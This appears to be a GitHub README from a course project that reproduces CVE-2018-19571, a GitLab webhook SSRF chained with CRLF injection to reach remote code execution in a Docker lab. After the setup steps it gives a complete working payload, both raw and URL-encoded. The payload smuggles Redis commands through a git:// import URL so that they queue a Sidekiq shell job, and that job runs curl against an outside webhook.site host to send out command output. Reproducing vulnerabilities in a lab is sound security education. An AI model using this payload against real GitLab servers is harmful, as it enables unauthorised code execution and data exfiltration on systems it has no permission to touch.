 # GitLab SSRF

This repository is a reproduction of [CVE-2018-19571](https://nvd.nist.gov/vuln/detail/CVE-2018-19571), and how when combined with a CRLF injection exploit, can lead to remote code execution (RCE).

## CVE Details

### CVE-2018-19571

GitLab CE/EE, versions 8.18 up to 11.x before 11.3.11, 11.4 before 11.4.8, and 11.5 before 11.5.1, are vulnerable to an SSRF vulnerability in webhooks.

## Setting Up

For this reproduction, we will be using a vulnerable GitLab image, and running it using Docker Compose.

```sh
git clone https://github.com/CS4239-U6/gitlab-ssrf.git
cd gitlab-ssrf
docker-compose up
```

The goal is to provide a webhook URL that, when processed, would result in a payload being sent to Redis.

This payload, that will be enqueued, will contain a Sidekiq Job, which upon execution will run arbitrary shell code. In our case, it will copy over the flag value to us.

## Steps

We will first run through the steps, before explaining what each of these steps do.

1. Create an account, or login using the root account.

   The root password should be `password`, as specified in the file `initial_root_password`, but sometimes this doesn't end up loading properly.

   In such cases, you will need to modify the root account password directly.

   ```sh
   docker exec -it gitlab-ssrf_web_1 /bin/bash
   # Inside the shell
   gitlab-rails console
   # Inside the console
   user = User.find_by_username 'root'
   user.password = 'password'
   user.password_confirmation = 'password'
   user.save!
   ```

   Then, head over to `http://localhost:5080` and login.

2. Navigate to the create project page.

   Next, head over to `http://localhost:5080/projects/new` and click the tab `Import project`. You should see that there is an option: `Repo by URL`. We are going to use that to perform our SSRF attack.

3. Create a webhook to receive the flag.

Create a webhook URL at `https://webhook.site/`.

Paste the URL into the following code at `<URL HERE>`:

```text
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| curl https://webhook.site/807b6a27-314e-4947-b5f1-c384d8dc574f -k\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```

Then finally, we encode the above using a [URL Encoder](https://www.urlencoder.org/). Note that we will only be encoding the payload (which includes the blanks at the beginning and the linebreaks), and not the first and last line. You will also need to use CRLF. Lastly, do replace the following characters, if any, with their respective encoding:

- `_`: `%5F`
- `.`: `%2E`
- `-`: `%2D`

```text
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7C%20curl%20https%3A%2F%2Fwebhook%2Esite%2F807b6a27%2D314e%2D4947%2Db5f1%2Dc384d8dc574f%20%2Dk%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git
```

(Or you can just use this payload above, and check out <https://webhook.site/#!/807b6a27-314e-4947-b5f1-c384d8dc574f/> to see the output).
